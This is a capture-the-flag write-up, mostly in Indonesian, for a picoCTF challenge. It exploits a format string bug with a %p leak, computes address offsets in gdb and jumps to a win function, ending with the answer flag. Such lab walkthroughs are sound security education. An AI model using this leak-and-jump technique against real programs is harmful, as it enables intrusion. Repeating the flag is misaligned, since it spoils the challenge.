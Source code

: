 Author: Darkraicg492
Description
Can you try to get the flag? I'm not revealing anything anymore!!
Additional details will be available after launching your challenge instance.

Skills gained: Jumping address exploit, format string vurnerability

1. jalankan instance dan masukka nc ke terminal dan download juga file source code dan binarynya
2. ketika menjalankan nc pada terminal, terdapat input untuk memasukkan username dan sesudah itu input lompat address. Sepertinya disini kelemahannya adalah format string vurnerability
3. Buka vuln.c dengan ide atau note apapun
4. ya terdapat jelas kode vurnerability pada

	char buffer[64];
 	printf("Enter your name:");
  	fgets(buffer, 64, stdin);
  	printf(buffer);

5. Kenapa itu bisa menjadi kelemahan/vurnerability disini? karena printf(buffer) tidak melakukan print string secara eksplisit yang seharusnya untuk aman adalah "%s"
6. disini sudah jelas kelemahan dan tujuannya (kita harus lompat ke fungsi win) tapi.. gimana cara mencari address alamat main dan win nya?
7. untuk sekarang Buka binary tersebut dengan ghidra atau cutter atau objdump atau gdb untuk mengecek alamat addres addres ini
	gdb:
	(gdb) disas main
	Dump of assembler code for function main:
   	0x0000555555555400 <+0>:	endbr64
   	0x0000555555555404 <+4>:	push   %rbp
   	0x0000555555555405 <+5>:	mov    %rsp,%rbp
   	0x0000555555555408 <+8>:	lea    -0x166(%rip),%rsi        # 0x5555555552a9 <segfault_handler>
   	0x000055555555540f <+15>:	mov    $0xb,%edi
   	0x0000555555555414 <+20>:	call   0x555555555170 <signal@plt>
   	0x0000555555555419 <+25>:	mov    0x2bf0(%rip),%rax        # 0x555555558010 <stdout@@GLIBC_2.2.5>
   	0x0000555555555420 <+32>:	mov    $0x0,%ecx
   	0x0000555555555425 <+37>:	mov    $0x2,%edx
   	0x000055555555542a <+42>:	mov    $0x0,%esi
   	0x000055555555542f <+47>:	mov    %rax,%rdi
   	0x0000555555555432 <+50>:	call   0x555555555180 <setvbuf@plt>
   	0x0000555555555437 <+55>:	mov    $0x0,%eax
   	0x000055555555543c <+60>:	call   0x5555555552c7 <call_functions>
   	0x0000555555555441 <+65>:	mov    $0x0,%eax
   	0x0000555555555446 <+70>:	pop    %rbp
   	0x0000555555555447 <+71>:	ret

8. alamat untuk main adalah 400, sekarang bagian alamat win nya
	gdb:
	(gdb) disas win
	Dump of assembler code for function win:
   		0x000055555555536a <+0>:	endbr64
   		0x000055555555536e <+4>:	push   %rbp
   		0x000055555555536f <+5>:	mov    %rsp,%rbp
   		0x0000555555555372 <+8>:	sub    $0x10,%rsp
   		0x0000555555555376 <+12>:	lea    0xcf6(%rip),%rdi        # 0x555555556073
   		...
   		...

9. oke, alamat untuk win adalah 36a. Alamat win dan mainnya sudah ketemu tapi.. sekarang gimana cara kita melompatinya? untuk melompati ini membutuhkan offset dari pengurangan alamat main dengan alamat win
10. dengan cara
	python3 -c "print(hex(0x0000555555555400 - 0x000055555555536a))"
	hasilnya: 0x96

11. et tapi.. kita harus memastikan dulu apakah alamat win atau main dari nc picoctf ini sama atau beda?, kita bisa memastikan dengan cara mengisi %p sebanyak lebih dari 20 kali (%p ini adalah format hexadecimal memory address)
	hasilnya:
	Enter your name:%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.
	0x5d94123332a1.(nil).0x5d94123332dd.0x7ffd34a32430.0x7c.0x7ffd34b20228.0x7ec4492206a0.0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.0x70252e70252e7025.0xa2e70252e.0x5d940be581c0.0x307e03c48e7fa100.0x7ffd34a32490.0x5d940be58441.(nil).
 	enter the address to jump to, ex => 0x12345: ^C

12. dan ternyata hasil dari main yang dipanggil dalam nc itu adalah 441 dan bukan 400, sekarang kita mengurangi 441 - 36a
	python3 -c "print(hex(0x441 - 0x36a))"             
	hasilnya: 0xd7

13. sesudah itu kita kurangi 441 dengan 0xd7 yang dari nc itu 
	contoh dariku:
	python3 -c "print(hex(0x5e0ab77a2441 - 0xd7))"
	hasilnya: 0x5e0ab77a236a

14. dan hasilnya seperti ini:
	nc rescued-float.picoctf.net 54031
	Enter your name:%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.
	0x5e0abd1102a1.(nil).0x5e0abd1102dd.0x7ffc19153af0.0x7c.0x7ffc1915e228.0x753d1ff9f6a0.0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.0x70252e70252e7025.0xa2e70252e.0x5e0ab77a21c0.0xa73378bb7a919100.0x7ffc19153b50.0x5e0ab77a2441.(nil).
 	enter the address to jump to, ex => 0x12345: 
	0x5e0ab77a236a
	You won!
	picoCTF{p13_5h0u1dn'7_134k_1ef23143}
	
flag: picoCTF{p13_5h0u1dn'7_134k_1ef23143}
